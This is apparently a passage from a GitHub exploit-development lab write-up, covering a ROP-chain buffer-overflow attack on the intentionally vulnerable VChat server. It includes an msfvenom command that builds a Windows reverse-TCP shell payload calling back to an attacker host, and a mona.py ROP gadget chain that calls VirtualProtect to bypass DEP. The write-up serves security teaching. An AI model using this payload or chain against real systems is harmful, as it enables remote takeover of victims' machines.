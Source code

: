          * This is likely due to the fact Immunity Debugger will attempt to trace and follow the execution into the Kernel Mode which is not supported in Immunity Debugger and we would be attempting to debug the kernel of the machine we are running on! Below is a Video showing the error when we step into the function.

         https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/b5d8de53-356d-4400-8ee7-df7bda4be74c

5. Now we can add a payload to our exploit, this can be generated with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html). 

	```
	$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -a x86 --platform windows -b '\x00\x0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
  	* `-f`: The output format .
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-a x86`: Specify the target architecture as `x86`
	* `--platform windows`: Specify the target platform as Windows
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values. 
      	* `\x00\x0a\x0d`: Null char, carriage return, and newline. 

6. Now we can modify the exploit program to reflect [exploit2.py](./SourceCode/exploit2.py) and verify that we can acquire a reverse shell!

   https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/2494cc5f-1c18-4020-95ef-1b36454cf147

## Previous Error
This section covers a previous error encountered when using a ROP chain generated with `mona.py`, in this case there was a collision between gadgets leading to a corrupted call stack.


1. Using the [mona.py](https://github.com/corelan/mona) command we generate an new ROP chain, this is necessary due to the use of gadgets that are located in modules with ASLR is enabled.
   ```
   !mona rop -m *.dll -n
   ```
   Generated ROP chain:
   ```
   rop_gadgets = [
         #[---INFO:gadgets_to_set_esi:---]
            0x77aee14c,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
            0x75bedd86,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x77c8c426,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ebp:---]
            0x77cb90a1,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
            0x625011c7,  # & jmp esp [essfunc.dll]
            #[---INFO:gadgets_to_set_ebx:---]
            0x75bd985e,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0xa28001c1,  # put delta into eax (-> put 0x00000201 into ebx)
            0x77b54803,  # ADD EAX,5D800040 # RETN 0x1C [KERNELBASE.dll] ** REBASED ** ASLR
            0x76027d44,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
   ```